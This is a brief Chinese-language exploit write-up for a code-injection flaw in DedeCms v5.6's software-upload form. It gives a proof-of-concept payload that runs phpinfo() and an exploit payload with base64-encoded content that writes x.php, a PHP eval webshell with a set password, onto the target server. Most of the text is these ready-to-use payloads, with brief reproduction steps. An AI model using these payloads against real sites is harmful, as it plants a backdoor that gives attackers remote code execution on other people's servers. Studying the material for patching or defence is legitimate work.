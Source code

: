 # DedeCms v5.6 嵌入恶意代码执行漏洞

## 漏洞简介

在上传软件的地方，对本地地址没有进行有效的验证，可以被恶意利用。

## 影响版本

DedeCms v5.6

## 复现

注册会员，上传软件：本地地址中填入如下：

### POC

```
a{/dede:link}{dede:toby57 name\="']=0;phpinfo();//"}x{/dede:toby57}，
```

发表后查看或修改即可执行。

### EXP

```
a{/dede:link}{dede:toby57 name\="']=0;fputs(fopen(base64_decode(eC5waHA),w),base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz5iYWlkdQ));//"}x{/dede:toby57}
```

生成x.php 密码：xiao直接生成一句话。



## 参考

知道创宇：https://www.seebug.org/vuldb/ssvid-20352